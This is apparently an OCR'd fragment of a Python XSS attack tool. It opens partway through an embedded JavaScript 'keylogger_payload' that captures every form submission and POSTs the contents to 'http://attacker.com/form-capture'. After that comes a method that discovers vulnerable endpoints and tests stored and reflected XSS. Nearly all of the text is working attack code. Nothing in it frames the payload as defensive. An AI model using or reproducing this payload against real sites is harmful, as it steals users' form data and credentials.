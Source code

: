             // Also capture form submissions
            document.addEventListener('submit', function(e) {
                const formData = new FormData(e.target);
                const formObject = {};
                formData.forEach((value, key) => formObject[key] = value);
                
                fetch('http://attacker.com/form-capture', {
                    method: 'POST',
                    body: JSON.stringify(formObject)
                });
            });
        })();
        </script>
        """
        
        return keylogger_payload
    
    def comprehensive_xss_assessment(self):
        """Perform comprehensive XSS assessment"""
        print("=== Comprehensive XSS Vulnerability Assessment ===")
        
        results = {
            'discovery': {},
            'stored_xss': {},
            'reflected_xss': {},
            'exploitation_payloads': {}
        }
        
        # Phase 1: Discovery
        vulnerable_endpoints = self.discover_xss_endpoints()
        results['discovery']['vulnerable_endpoints'] = vulnerable_endpoints
        
        if not vulnerable_endpoints:
            print("\n❌ No XSS vulnerabilities found")
            return results
        
        print(f"\n✅ Found {len(vulnerable_endpoints)} potentially vulnerable endpoints")
        
        # Phase 2: Detailed testing
        for endpoint_info in vulnerable_endpoints:
            endpoint_key = f"{endpoint_info['endpoint']['method']}_{endpoint_info['endpoint']['url']}_{endpoint_info['endpoint']['param']}"
            
            # Test stored XSS
            stored_results = self.test_stored_xss(endpoint_info)
            results['stored_xss'][endpoint_key] = stored_results
            
            # Test reflected XSS
            reflected_results = self.test_reflected_xss(endpoint_info)
            results['reflected_xss'][endpoint_key] = reflected_results
        